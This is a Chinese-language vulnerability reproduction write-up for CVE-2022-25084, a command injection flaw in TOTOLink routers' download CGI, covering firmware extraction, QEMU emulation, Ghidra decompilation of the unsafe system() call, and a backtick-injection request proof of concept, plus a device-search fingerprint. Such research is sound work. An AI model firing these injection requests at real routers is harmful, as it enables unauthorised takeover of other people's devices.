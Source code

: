 # TOTOLink 多个设备 download.cgi 远程命令执行漏洞 CVE-2022-25084

## 漏洞描述

TOTOLink 多个设备 download.cgi文件存在远程命令执行漏洞，攻击者通过构造特殊的请求可以获取服务器权限

## 漏洞影响

<a-checkbox checked>TOTOLink 多个设备</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"totolink"</a-checkbox></br>

## 漏洞复现

下载路由器固件

![img](../../../.vuepress/public/img/1648907409606-0704b8c0-aa5c-44d4-9d45-9fd1c0c62736.png)

使用binwalk分解固件

![img](../../../.vuepress/public/img/1648907425761-dabc39f3-ac5e-483c-b446-4e7a3883afec.png)

查看分解出来的文件

![img](../../../.vuepress/public/img/1648907514313-7f8d3965-8435-484d-b67d-b04aae2da33e.png)

![img](../../../.vuepress/public/img/1648907561137-36b56f40-cc42-4c25-b53a-74554b0e5fa7.png)

使用qemu搭建路由器

```php
#set network
sudo brctl addbr virbr2
sudo ifconfig virbr2 192.168.6.1/24 up
sudo tunctl -t tap2
sudo ifconfig tap2 192.168.6.11/24 up
sudo brctl addif virbr2 tap2

qemu-system-mipsel -M malta -kernel vmlinux-3.2.0-4-4kc-malta -hda debian_wheezy_mipsel_standard.qcow2 -append "root=/dev/sda1" -netdev tap,id=tapnet,ifname=tap2,script=no -device rtl8139,netdev=tapnet -nographic
```

创建后在qemu里执行命令启动路由器

```php
ifconfig eth0 192.168.6.11 up 
scp -r squashfs-root/ root@192.168.6.11:/root/    	
chroot ./squashfs-root/ /bin/sh
touch /var/run/lighttpd.pid
./bin/lighttpd -f ./lighttp/lighttpd.conf -m ./lighttp/lib
```

注意 `lighttpd.conf` 文件需要修改 `server.pid-file` 参数

![img](../../../.vuepress/public/img/1648908009576-87dcb518-213e-49cf-9a00-9f3c4d90e955.png)

启动后访问路由器页面

![img](../../../.vuepress/public/img/1648912800395-a085fc01-e97b-4044-bc06-fc5f894928f5.png)

我们找到需要分析的文件目录 `squashfs-root/web_cste/cgi-bin`

![img](../../../.vuepress/public/img/1648909334138-f28cf393-17e6-48a8-80f0-7a5288419e78.png)

使用Ghidra分析 cgi文件 `downloadFile.cgi`

![img](../../../.vuepress/public/img/1648910386798-e04871ca-ff36-4843-bb3d-2f382c078ed4.png)

我们注意到其中的system执行命令

```php
pcVar1 = getenv("QUERY_STRING");
memset(acStack1424,0,0x200);
memset(acStack912,0,0x200);
sprintf(acStack1424,"echo QUERY_STRING:%s >/tmp/download",pcVar1);
system(acStack1424);
```

其中 getenv 从请求Url中获取参数,传参给pcVar1，再通过下面的sprintf 赋值给 acStack1424 使用 system函数 进行命令执行

![img](../../../.vuepress/public/img/1648910646489-cfd02a84-6b04-4fb4-a4fa-dd3e007c045a.png)

我们构造请求包控制 QUERY_STRING 参数来进行恶意命令执行

```php
/cgi-bin/downloadFlile.cgi?payload=`ls>../cmd.txt`
```

![img](../../../.vuepress/public/img/1648912604072-692cfff6-164e-4724-9a10-f89b3b62dc79.png)

![img](../../../.vuepress/public/img/1648912691525-e03b2fc4-4cf4-46d7-a379-e31a80d0f2d6.png)